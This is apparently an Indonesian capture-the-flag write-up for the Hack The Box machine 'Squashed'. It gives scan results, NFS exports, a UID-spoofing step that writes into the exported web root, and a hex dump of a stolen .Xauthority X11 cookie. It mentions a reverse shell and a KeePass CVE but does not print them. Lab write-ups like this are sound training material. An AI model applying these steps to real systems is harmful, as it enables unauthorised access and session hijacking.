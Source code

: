 
| Port     | State    | Service     | Version                                                      |
| -------- | -------- | ----------- | ------------------------------------------------------------ |
| 22/tcp   | open     | ssh         | OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0) |
| 80/tcp   | open     | http        | Apache httpd 2.4.41 (Ubuntu)                                 |
| 111/tcp  | open     | rpcbind     | 2-4 (RPC #100000)                                            |
| 2049/tcp | open     | nfs         | 3-4 (RPC #100003)                                            |
| 1455/tcp | filtered | esl-lm      |                                                              |
| 2710/tcp | filtered | sso-service |                                                              |

### Service Details:
- **ssh**
  - SSH Host Keys:
    - RSA: 3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae
    - ECDSA: 256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f
    - ED25519: 256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb
- **http**
  - Server: Apache/2.4.41 (Ubuntu)
  - Title: Built Better
- **rpcbind**
  - Versions: 2-4 (RPC #100000)
  - Additional Services:
    - nfs: 2049 (TCP/UDP), mountd, nlockmgr, nfs_acl

### Operating System:
- OS: Linux
- CPE: cpe:/o:linux:linux_kernel

Nmap scan report generated at 2024-06-22 10:29 WIB


### Mount

| IP Address      | Exported Directory    |
|-----------------|-----------------------|
| 10.10.11.191:111 | /home/ross            |
| 10.10.11.191:111 | /var/www/html         |

di folder /home/ross/Documents/ terdapat file Passwords.kdbx
nah di sini ada kerentanan **CVE-2023-32784** 

tapi di var nya permession nya drwxr-xr--  5  2017 www-data 4096 Jun 22 10:50 var

```bash
sudo usermod -u 2017 dummy
sudo su dummy -c bash

┌─[dummy@parrot]─[/home/aexon/Desktop/ctf-main/ctf-docs/CTF/hackthebox/linux/Squashed/var]
└──╼ $echo "Tester" >> testing.html
┌─[dummy@parrot]─[/home/aexon/Desktop/ctf-main/ctf-docs/CTF/hackthebox/linux/Squashed/var]
└──╼ $ls -al
total 56
drwxr-xr-- 5 dummy www-data  4096 Jun 22 10:55 .
drwxr-xr-x 1 aexon aexon       90 Jun 22 10:53 ..
drwxr-xr-x 2 dummy www-data  4096 Jun 22 10:55 css
-rw-r--r-- 1 dummy www-data    44 Okt 21 2022 .htaccess
drwxr-xr-x 2 dummy www-data  4096 Jun 22 10:55 images
-rw-r----- 1 dummy www-data 32532 Jun 22 10:55 index.html
drwxr-xr-x 2 dummy www-data  4096 Jun 22 10:55 js
-rw-r--r-- 1 dummy dummy        7 Jun 22 10:55 testing.html

```


![[Screenshot at 2024-06-22 11-03-20.png]]

nah di sini juga terganti ke Tester. oke kita pakai reverse shell nya


```bash
xxd .Xauthority 
00000000: 0100 000c 7371 7561 7368 6564 2e68 7462  ....squashed.htb
00000010: 0001 3000 124d 4954 2d4d 4147 4943 2d43  ..0..MIT-MAGIC-C
00000020: 4f4f 4b49 452d 3100 10f8 4d35 b158 4b18  OOKIE-1...M5.XK.
00000030: 2b21 904e 670d 795f e5                   +!.Ng.y_.
```

```bash
┌─[tester@parrot]─[/home/aexon/Desktop/ctf-main/ctf-docs/CTF/hackthebox/linux/Squashed/mount]
└──╼ $w
 11:52:49 up  3:14,  4 users,  load average: 3,14, 2,18, 1,95
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
aexon    tty7     :0               08:38    3:14m  8:00   0.68s x-session-manager
aexon    pts/1    -                10:26    1:26m  3:55   0.04s sudo openvpn lab_Aexon101.ovpn
aexon    pts/3    -                11:48    2:57   0.00s  0.02s sudo su dummy -c bash
aexon    pts/9    -                11:51    1.00s  0.00s   ?    sudo su tester -c bash

```

